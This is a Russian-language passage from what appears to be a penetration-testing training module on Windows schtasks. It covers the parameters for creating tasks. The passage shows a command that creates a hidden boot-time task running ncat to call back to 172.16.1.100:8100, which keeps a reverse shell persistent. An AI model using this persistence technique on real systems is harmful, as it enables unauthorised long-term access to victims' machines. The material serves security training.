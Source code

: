 Объединение параметров в цепочку с помощью `Query` позволяет преобразовать стандартный массив в список с расширенными настройками. На приведённом выше примере показано, как будут выглядеть задачи в формате списка.

#### Создайте новую запланированную задачу:

#### Синтаксис создания

| **Экшен** | **Параметр** | **Описание**                                                                                                                           |
| --------- | ------------ | -------------------------------------------------------------------------------------------------------------------------------------- |
| `Create`  |              | Планирует выполнение задачи.                                                                                                           |
|           | /sc          | Устанавливает тип расписания. Оно может быть поминутным, почасовым, еженедельным и т. д. Обязательно проверьте параметры.              |
|           | /tn          | Задаёт имя для задачи, которую мы создаём. У каждой задачи должно быть уникальное имя.                                                 |
|           | /tr          | Устанавливает триггер и задачу, которые должны быть выполнены. Это может быть исполняемый файл, скрипт или пакетный файл.              |
|           | /s           | Указывает хост для запуска, как и в запросе.                                                                                           |
|           | /u           | Указывает локального пользователя или пользователя домена, который будет использоваться                                                |
|           | /p           | Устанавливает пароль, указанный пользователем.                                                                                         |
|           | /mo          | Позволяет настроить модификатор для запуска по заданному расписанию. Например, каждые 5 часов через день.                              |
|           | /rl          | Позволяет ограничить права доступа к задаче. Здесь доступны опции `limited` доступа и `Highest`. Ограниченный — значение по умолчанию. |
|           | /z           | Установит задачу на удаление после завершения ее действий.                                                                             |

Создать новое запланированное задание довольно просто. Как минимум, мы должны указать следующее:

- `/create` : рассказать ему, что мы делаем
- `/sc` : мы должны установить график
- `/tn` : мы должны задать имя
- `/tr` : мы должны дать ему возможность предпринять какие-то действия

Всё остальное необязательно. Ниже приведён пример того, как мы можем создать задачу, которая поможет нам получить оболочку.

#### Создание Новой задачи

  Работа с запланированными задачами

```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

**Отличный пример использования schtasks — обратный вызов при каждой загрузке хоста. Это гарантирует, что если наша оболочка выйдет из строя, мы получим обратный вызов от хоста при следующей перезагрузке, что повышает вероятность того, что мы потеряем доступ к хосту только на короткое время, если что-то произойдёт или хост будет выключен. Мы можем создать или изменить новую задачу, добавив новый триггер и действие. В нашей задаче выше мы с помощью планировщика задач локально запускаем Ncat, который мы поместили в каталог AppData пользователя, и подключаемся к хосту `172.16.1.100` на порту `8100`. В случае успешного выполнения этот запрос на подключение должен соединиться с нашей системой управления (Metasploit, Empire и т. д.) и предоставить нам доступ к оболочке.**
